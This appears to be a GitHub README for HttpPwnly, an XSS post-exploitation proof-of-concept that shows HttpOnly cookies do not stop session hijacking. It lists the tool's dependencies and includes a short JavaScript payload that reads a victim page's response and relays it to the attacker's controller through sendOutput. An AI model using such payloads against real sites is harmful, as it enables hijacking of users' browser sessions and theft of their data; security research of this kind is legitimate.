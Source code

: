 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install flask flask_sqlalchemy flask_cors flask-socketio eventlet

## Demo:
https://www.youtube.com/watch?v=HQYzJKpBHjk

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```
